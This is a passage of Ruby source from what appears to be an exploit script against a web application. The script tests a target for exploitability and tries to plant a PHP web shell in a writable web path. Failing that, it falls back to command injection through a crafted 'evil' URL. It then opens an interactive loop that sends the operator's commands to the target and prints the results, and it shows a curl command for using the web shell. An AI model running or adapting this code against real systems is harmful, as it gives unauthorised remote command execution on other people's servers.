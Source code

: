```ruby

  else
    puts warning("Target is NOT exploitable [1-1] (HTTP Response: #{response.code})")
    puts verbose("response.body: #{response.body}") if $verbose
  end

  webshellpath = ""

  puts "- "*40 if path != paths.last
end if try_phpshell

# If a web path was set, we exploited using PHP!
if not webshellpath.empty?
  # Get hostname for the prompt
  prompt = response.body.to_s.strip if response.code == "200" and not response.body.empty?

  puts "-"*80
  puts info("Fake PHP shell:   curl '#{$target}#{webshellpath}' -d 'c=hostname'")
# Should we be trying to call commands via PHP?
elsif try_phpshell
  puts warning("FAILED : Couldn't find a writeable web path")
  puts "-"*80
  puts action("Dropping back to direct OS commands")
end


# Stop any CTRL + C action ;)
trap("INT", "SIG_IGN")


# Forever loop
loop do
  # Default value
  result = "~ERROR~"

  # Get input
  command = Readline.readline("#{prompt}>> ", true).to_s

  # Check input
  puts warning("WARNING: Detected an known bad character (>)") if command =~ />/

  # Exit
  break if command == "exit"

  # Blank link?
  next if command.empty?

  # If PHP web shell
  if not webshellpath.empty?
    # Send request
    result = http_request("#{$target}#{webshellpath}", "post", "c=#{command}", $session_cookie).body
  # Direct OS commands
  else
    url, payload = gen_evil_url(command, $element, true)
    response = http_request(url, "post", payload, $session_cookie)

    # Check result
    if not response.body.empty?
      result = clean_result(response.body)
    end
  end

```